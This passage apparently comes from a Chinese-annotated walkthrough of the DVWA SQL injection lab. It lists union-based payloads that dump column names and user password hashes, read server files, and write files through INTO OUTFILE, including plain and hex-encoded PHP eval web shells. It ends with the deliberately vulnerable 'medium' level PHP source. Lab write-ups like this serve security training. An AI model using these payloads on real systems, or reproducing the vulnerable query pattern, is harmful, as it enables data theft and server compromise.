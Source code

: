 ```  
?id=1' union select 1,group_concat(column_name) from information_schema.columns where table_name ='users' --   
-- output：user_id,first_name,last_name,user,password,avatar,last_login,failed_login  
  
# 爆字段名  
?id=1' union select group_concat(user_id,first_name,last_name),group_concat(password) from users  --   
?id=1' union select null,concat_ws(char(32,58,32),user,password) from users --   
?id=1' union select user,password from users --   
-- output：admin/5f4dcc3b5aa765d61d8327deb882cf99  
  
# 读文件  
?id=1' union select 1,load_file('//tmp//key') --   
  
# 写文件()  
?id=1' and '1'='2' union select null,'hello' into outfile '/tmp/test01' --  
?id=999' union select null,'hello' into outfile '/tmp/test02' --  
?id=999'  union select null,'<?php @evaltest($_POST["gg"]); ?>' into outfile '/tmp/test03' --    
?id=999' union select 1,0x3C3F70687020406576616C28245F504F53545B27636D64275D293B3F3E into outfile '//tmp//test04' --  
```

### medium  

```php  
<?php  
  
if( isset( $_POST[ 'Submit' ] ) ) {  
    // Get input  
    $id = $_POST[ 'id' ];  
  
    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);  
  
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";  
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );  
  
    // Get results  
    while( $row = mysqli_fetch_assoc( $result ) ) {  
        // Display values  
        $first = $row["first_name"];  
        $last  = $row["last_name"];  
  
        // Feedback for end user  
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";  
    }  
  
}  
  
// This is used later on in the index.php page  
// Setting it here so we can close the database connection in here like in the rest of the source scripts  
$query  = "SELECT COUNT(*) FROM users;";  
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );  
$number_of_rows = mysqli_fetch_row( $result )[0];  
  
mysqli_close($GLOBALS["___mysqli_ston"]);  
?>  
```
